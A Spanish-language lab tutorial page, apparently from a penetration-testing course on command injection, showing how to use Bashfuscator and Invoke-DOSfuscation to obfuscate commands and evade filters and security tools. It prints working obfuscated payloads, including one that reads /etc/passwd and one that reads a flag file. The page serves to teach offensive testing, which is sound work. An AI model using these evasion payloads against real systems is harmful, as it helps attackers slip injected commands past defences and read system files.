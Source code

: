 Si estamos tratando con herramientas de seguridad avanzadas, es posible que no podamos usar técnicas básicas y manuales de ofuscación. En tales casos, puede ser mejor recurrir a herramientas automáticas de ofuscación. Esta sección discutirá un par de ejemplos de este tipo de herramientas, una para `Linux` y otra para `Windows`.

---

## Linux (Bashfuscator)

Una herramienta útil que podemos utilizar para ofuscar comandos bash es [Bashfuscator](https://github.com/Bashfuscator/Bashfuscator). Podemos clonar el repositorio desde GitHub y luego instalar sus requisitos, de la siguiente manera:



```r
git clone https://github.com/Bashfuscator/Bashfuscator
cd Bashfuscator
pip3 install setuptools==65
python3 setup.py install --user
```

Una vez que tengamos la herramienta configurada, podemos comenzar a usarla desde el directorio `./bashfuscator/bin/`. Hay muchas flags que podemos usar con la herramienta para ajustar nuestro comando ofuscado final, como podemos ver en el menú de ayuda `-h`:



```r
cd ./bashfuscator/bin/
./bashfuscator -h

usage: bashfuscator [-h] [-l] ...SNIP...

optional arguments:
  -h, --help            show this help message and exit

Program Options:
  -l, --list            List all the available obfuscators, compressors, and encoders
  -c COMMAND, --command COMMAND
                        Command to obfuscate
...SNIP...
```

Podemos comenzar simplemente proporcionando el comando que queremos ofuscar con la flag `-c`:



```r
./bashfuscator -c 'cat /etc/passwd'

[+] Mutators used: Token/ForCode -> Command/Reverse
[+] Payload:
 ${*/+27\[X\(} ...SNIP...  ${*~}   
[+] Payload size: 1664 characters
```

Sin embargo, ejecutar la herramienta de esta manera elegirá aleatoriamente una técnica de ofuscación, que puede producir un comando con una longitud que varía desde unos pocos cientos de caracteres hasta más de un millón de caracteres. Así que podemos usar algunas de las flags del menú de ayuda para producir un comando ofuscado más corto y simple, de la siguiente manera:



```r
./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1

[+] Mutators used: Token/ForCode
[+] Payload:
eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"
[+] Payload size: 104 characters
```

Ahora podemos probar el comando generado con `bash -c ''`, para ver si ejecuta el comando previsto:



```r
bash -c 'eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"'

root:x:0:0:root:/root:/bin/bash
...SNIP...
```

Podemos ver que el comando ofuscado funciona, todo mientras se ve completamente ofuscado y no se parece a nuestro comando original. También podemos notar que la herramienta utiliza muchas técnicas de ofuscación, incluidas las que discutimos previamente y muchas otras.

Ejercicio: Intenta probar el comando anterior con nuestra aplicación web, para ver si puede superar los filtros. Si no lo hace, ¿puedes adivinar por qué? ¿Y puedes hacer que la herramienta produzca un payload funcional?

---

## Windows (DOSfuscation)

También hay una herramienta muy similar que podemos usar para Windows llamada [DOSfuscation](https://github.com/danielbohannon/Invoke-DOSfuscation). A diferencia de `Bashfuscator`, esta es una herramienta interactiva, ya que la ejecutamos una vez e interactuamos con ella para obtener el comando ofuscado deseado. Una vez más, podemos clonar la herramienta desde GitHub y luego invocarla a través de PowerShell, de la siguiente manera:



```r
PS C:\htb> git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
PS C:\htb> cd Invoke-DOSfuscation
PS C:\htb> Import-Module .\Invoke-DOSfuscation.psd1
PS C:\htb> Invoke-DOSfuscation
Invoke-DOSfuscation> help

HELP MENU :: Available options shown below:
[*]  Tutorial of how to use this tool             TUTORIAL
...SNIP...

Choose one of the below options:
[*] BINARY      Obfuscated binary syntax for cmd.exe & powershell.exe
[*] ENCODING    Environment variable encoding
[*] PAYLOAD     Obfuscated payload via DOSfuscation
```

Incluso podemos usar `tutorial` para ver un ejemplo de cómo funciona la herramienta. Una vez que estemos listos, podemos comenzar a usar la herramienta, de la siguiente manera:



```r
Invoke-DOSfuscation> SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
Invoke-DOSfuscation> encoding
Invoke-DOSfuscation\Encoding> 1

...SNIP...
Result:
typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt
```

Finalmente, podemos intentar ejecutar el comando ofuscado en `CMD`, y vemos que de hecho funciona como se esperaba:



```r
C:\htb> typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt

test_flag
```

Consejo: Si no tenemos acceso a una VM de Windows, podemos ejecutar el código anterior en una VM de Linux a través de `pwsh`. Ejecuta `pwsh`, y luego sigue el mismo comando anterior. Esta herramienta está instalada por defecto en tu instancia de `Pwnbox`. También puedes encontrar instrucciones de instalación en este [enlace](https://docs.microsoft.com/en-us/powershell/scripting/install/installing-powershell-core-on-linux).

Para más información sobre métodos avanzados de ofuscación, puedes consultar el módulo [Secure Coding 101: JavaScript](https://academy.hackthebox.com/course/preview/secure-coding-101-javascript), que cubre métodos avanzados de ofuscación que se pueden utilizar en varios ataques, incluidos los que cubrimos en este módulo.